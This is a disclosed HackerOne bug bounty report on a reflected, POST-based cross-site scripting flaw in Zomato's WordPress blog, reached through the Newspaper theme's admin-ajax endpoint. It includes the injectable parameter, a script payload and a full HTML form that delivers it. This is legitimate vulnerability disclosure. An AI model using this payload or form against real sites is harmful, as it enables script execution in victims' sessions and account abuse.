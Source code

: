# [Zomato's Blog] POST based XSS on https://www.zomato.com/blog/wp-admin/admin-ajax.php?td_theme_name=Newspaper&v=8.2

## Report Details
- **Report ID**: 335481
- **URL**: https://hackerone.com/reports/335481
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-04-10T14:28:29.207Z
- **Disclosed**: 2018-04-26T12:12:14.056Z

## Reporter
- **Username**: inferno-
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
##Issue details:
POST based XSS 

##Vulnerable URL:
https://www.zomato.com/blog/wp-admin/admin-ajax.php?td_theme_name=Newspaper&v=8.2

##Vulnerable Parameter:
loopState[moduleId]

##Payload:
<svg><script>prompt&#40;document.domain)</script>

##Steps to reproduce:
* As this is a post based you need to create a html csrf to trigger xss.
* HTML code is below..

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.zomato.com/blog/wp-admin/admin-ajax.php?td_theme_name=Newspaper&v=8.2" method="POST">
      <input type="hidden" name="action" value="td&#95;ajax&#95;loop" />
      <input type="hidden" name="loopState&#91;sidebarPosition&#93;" value="" />
      <input type="hidden" name="loopState&#91;moduleId&#93;" value="&lt;svg&gt;&lt;script&gt;prompt&amp;&#35;40&#59;document&#46;domain&#41;&lt;&#47;script&gt;" />
      <input type="hidden" name="loopState&#91;currentPage&#93;" value="2" />
      <input type="hidden" name="loopState&#91;max&#95;num&#95;pages&#93;" value="4" />
      <input type="hidden" name="loopState&#91;atts&#93;&#91;category&#95;id&#93;" value="479" />
      <input type="hidden" name="loopState&#91;atts&#93;&#91;offset&#93;" value="2" />
      <input type="hidden" name="loopState&#91;ajax&#95;pagination&#95;infinite&#95;stop&#93;" value="3" />
      <input type="hidden" name="loopState&#91;server&#95;reply&#95;html&#95;data&#93;" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

* Save this as a .html file.
* Open that html file, it will trigger xss.

##POC:
Screenshot and necessary files are enclosed in attachment.

## Impact

Reflected cross-site scripting vulnerabilities arise when data is copied from a request and echoed into the application's immediate response in an unsafe way. An attacker can use the vulnerability to construct a request that, if issued by another application user, will cause JavaScript code supplied by the attacker to execute within the user's browser in the context of that user's session with the application.

## Attachments
- zomato_xss.html
- xss.png
